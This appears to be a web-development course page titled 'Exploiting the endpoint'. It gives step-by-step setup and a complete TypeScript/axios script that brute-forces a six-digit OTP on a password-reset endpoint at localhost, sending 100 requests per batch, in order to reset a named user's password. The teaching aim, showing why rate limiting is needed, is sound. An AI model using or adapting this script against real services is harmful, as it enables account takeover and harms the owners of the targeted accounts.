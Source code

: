 # Exploiting the endpoint

Export Node.js code from Postman to hit the endpoint

![notion image](https://www.notion.so/image/https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F085e8ad8-528e-47d7-8922-a23dc4016453%2Fbddad4a6-471a-4f08-8b5a-0bd92b765115%2FScreenshot_2024-04-20_at_4.20.16_PM.png?table=block&id=73013d9b-8006-4da8-84c6-1e4d47a584b8&cache=v2)

1.  Create a new folder (exploit-service)

2.  Initialize simple ts project in it

```javascript
npm init -y
npx tsc --init
```

1.  Install dependencies

```javascript
npm install axios
```

1.  Add brute force logic to hit the server

```javascript
import axios from "axios";

async function sendRequest(otp: number) {
  let data = JSON.stringify({
    "email": "harkirat@gmail.com",
    "otp": otp,
    "newPassword": "123123123"
  });

  let config = {
    method: 'post',
    maxBodyLength: Infinity,
    url: 'http://localhost:3000/reset-password',
    headers: {
      'sec-ch-ua': '"Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"',
      'Next-Router-State-Tree': '%5B%22%22%2C%7B%22children%22%3A%5B%22admin%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D',
      'sec-ch-ua-mobile': '?0',
      'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36',
      'Accept': 'text/x-component',
      'Referer': 'http://localhost:3000/admin',
      'Next-Action': 'a221b071140e55563e91a3226c508cb229c121f6',
      'sec-ch-ua-platform': '"macOS"',
      'Content-Type': 'application/json'
    },
    data: data
  };

  try {
    await axios.request(config)
    console.log("done for " + otp);
  } catch(e) {
    
  }
}

async function main() {
  for (let i = 0; i < 1000000; i+=100) {
    const promises = [];
    console.log("here for " + i);
    for (let j = 0; j < 100; j++) {
      promises.push(sendRequest(i + j))
    }
    await Promise.all(promises);
  }
}

main()
```

💡

We’ve added batching here and we’re sending 100 req at a time